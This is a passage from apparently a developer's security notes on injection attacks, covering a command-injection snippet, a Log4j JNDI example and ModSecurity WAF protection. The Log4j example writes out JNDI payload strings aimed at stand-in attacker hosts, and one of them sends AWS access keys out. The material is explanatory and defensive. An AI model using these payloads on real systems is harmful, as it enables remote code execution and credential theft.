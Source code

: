     # ensuring the inputs are properly escaped
    subprocess.call([e,input])
    
    # output
    hello world && ls -al
    0
    ```

  * Injection can also result in **Remote code execution (RCE)** attacks e.g. [log4j vulnerability](https://www.youtube.com/watch?v=uyq8yxWO1ls&ab_channel=JavaBrains). Log injection is relatively harmless but combining it with ability to run remote code can be problematic.
  
    ```java
    final Logger logger = LogManager.getLogger(...);
    logger.error("Error message: {}", error.message());

    // Search page log
    logger.info("User {} searched for {}", user.getId(), searchTextInput);

    // if attacker sets up a remote JNDI server with malicious code and passes that as the search input,
    // it will result in the affected application that is using log4j running this remote malicious code
    searchTextInput = "$jndi:ldap://my-evil-ldap/maliciousobject}"

    // attacker can also lookup application environment variables and send them over to the remote JNDI server
    searchTextInput = "$jndi:ldap://evil.attacker:1234/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}}"
    ```

### Layer 7 protection

HTTP based communication can be secured by deploying a Web Application Firewall (WAF) for broad range of layer 7 attacks such as SQL Injection, Cross Site Scripting, Local/Remote File Inclusion and Remote Code Execution which all together account for majority of application layer attacks.

#### ModSecurity WAF

ModSecurity is an open source WAF for securing applications, used by over a million sites around the world.

* Inspects incoming HTTP requests for anomalies
* Uses database of rules to define behaviours. It supports:
  * free open source OWASP ModSecurity Core Rule Set (CRS) with generic attack detection
  * commercial TrustWave rule set (rule package updated daily) that works alone or with OWASP CRS with specific attacks & accuracy,
* Traffic that violates rules are dropped and/or logged

The latest version, ModSecurity 3.0, has a modular architecture that runs natively in NGINX. Previous versions worked only with the Apache HTTP Server. Modsecurity can be [complied and installed for open source inginx](https://www.nginx.com/blog/compiling-and-installing-modsecurity-for-open-source-nginx/) and other reverse proxies like [HAProxy](https://www.haproxy.com/haproxy-web-application-firewall-trial/)
